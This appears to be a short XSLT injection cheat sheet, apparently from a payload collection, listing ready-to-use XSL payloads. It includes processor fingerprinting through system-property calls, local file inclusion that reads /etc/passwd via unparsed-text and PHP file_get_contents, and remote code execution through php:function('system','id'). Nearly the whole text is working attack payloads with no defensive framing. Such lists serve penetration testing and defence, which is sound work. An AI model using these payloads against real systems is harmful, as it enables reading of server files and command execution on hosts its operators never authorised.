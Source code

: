 ## Test
```
`<` to `&lt;` and `>` to `&gt;`
```

### Some Info
```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

## Local File Inclusion (LFI)

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

## Remote Code Execution (RCE)

```xml
<xsl:value-of select="php:function('system','id')" />
```